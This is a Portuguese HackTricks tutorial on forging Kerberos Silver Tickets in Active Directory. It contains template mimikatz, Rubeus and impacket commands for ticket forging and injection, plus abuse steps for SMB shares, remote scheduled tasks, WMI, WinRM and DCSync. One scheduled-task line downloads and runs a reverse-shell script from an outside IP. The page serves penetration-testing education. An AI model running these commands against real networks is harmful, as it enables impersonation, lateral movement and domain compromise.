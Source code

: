 # Silver Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## Silver ticket

O ataque **Silver Ticket** envolve a exploração de tickets de serviço em ambientes do Active Directory (AD). Este método depende de **adquirir o hash NTLM de uma conta de serviço**, como uma conta de computador, para forjar um ticket de Serviço de Concessão de Ticket (TGS). Com este ticket forjado, um atacante pode acessar serviços específicos na rede, **impersonando qualquer usuário**, geralmente visando privilégios administrativos. É enfatizado que usar chaves AES para forjar tickets é mais seguro e menos detectável.

Para a criação de tickets, diferentes ferramentas são empregadas com base no sistema operacional:

### On Linux
```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache
python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```
### No Windows
```bash
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```
O serviço CIFS é destacado como um alvo comum para acessar o sistema de arquivos da vítima, mas outros serviços como HOST e RPCSS também podem ser explorados para tarefas e consultas WMI.

## Serviços Disponíveis

| Tipo de Serviço                            | Serviços Silver Tickets                                                    |
| ------------------------------------------ | -------------------------------------------------------------------------- |
| WMI                                        | <p>HOST</p><p>RPCSS</p>                                                   |
| PowerShell Remoting                       | <p>HOST</p><p>HTTP</p><p>Dependendo do SO também:</p><p>WSMAN</p><p>RPCSS</p> |
| WinRM                                      | <p>HOST</p><p>HTTP</p><p>Em algumas ocasiões você pode apenas pedir: WINRM</p> |
| Tarefas Agendadas                         | HOST                                                                      |
| Compartilhamento de Arquivos do Windows, também psexec | CIFS                                                                      |
| Operações LDAP, incluindo DCSync         | LDAP                                                                      |
| Ferramentas de Administração de Servidor Remoto do Windows | <p>RPCSS</p><p>LDAP</p><p>CIFS</p>                                        |
| Golden Tickets                             | krbtgt                                                                    |

Usando **Rubeus** você pode **pedir todos** esses tickets usando o parâmetro:

* `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`

### IDs de Evento de Silver Tickets

* 4624: Logon de Conta
* 4634: Logoff de Conta
* 4672: Logon de Admin

## Abusando de Tickets de Serviço

Nos exemplos a seguir, vamos imaginar que o ticket é recuperado impersonando a conta de administrador.

### CIFS

Com este ticket, você poderá acessar a pasta `C$` e `ADMIN$` via **SMB** (se estiverem expostas) e copiar arquivos para uma parte do sistema de arquivos remoto apenas fazendo algo como:
```bash
dir \\vulnerable.computer\C$
dir \\vulnerable.computer\ADMIN$
copy afile.txt \\vulnerable.computer\C$\Windows\Temp
```
Você também poderá obter um shell dentro do host ou executar comandos arbitrários usando **psexec**:

{% content-ref url="../lateral-movement/psexec-and-winexec.md" %}
[psexec-and-winexec.md](../lateral-movement/psexec-and-winexec.md)
{% endcontent-ref %}

### HOST

Com essa permissão, você pode gerar tarefas agendadas em computadores remotos e executar comandos arbitrários:
```bash
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```
### HOST + RPCSS

Com esses tickets, você pode **executar WMI no sistema da vítima**:
```bash
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list
```
Encontre **mais informações sobre wmiexec** na seguinte página:

{% content-ref url="../lateral-movement/wmiexec.md" %}
[wmiexec.md](../lateral-movement/wmiexec.md)
{% endcontent-ref %}

### HOST + WSMAN (WINRM)

Com acesso winrm a um computador, você pode **acessá-lo** e até obter um PowerShell:
```bash
New-PSSession -Name PSC -ComputerName the.computer.name; Enter-PSSession PSC
```
Verifique a página a seguir para aprender **mais maneiras de se conectar a um host remoto usando winrm**:

{% content-ref url="../lateral-movement/winrm.md" %}
[winrm.md](../lateral-movement/winrm.md)
{% endcontent-ref %}

{% hint style="warning" %}
Observe que **winrm deve estar ativo e ouvindo** no computador remoto para acessá-lo.
{% endhint %}

### LDAP

Com esse privilégio, você pode despejar o banco de dados do DC usando **DCSync**:
```
mimikatz(commandline) # lsadump::dcsync /dc:pcdc.domain.local /domain:domain.local /user:krbtgt
```
**Saiba mais sobre DCSync** na página a seguir:

## Referências

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)

{% content-ref url="dcsync.md" %}
[dcsync.md](dcsync.md)
{% endcontent-ref %}

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Dica de bug bounty**: **inscreva-se** no **Intigriti**, uma **plataforma premium de bug bounty criada por hackers, para hackers**! Junte-se a nós em [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) hoje e comece a ganhar recompensas de até **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
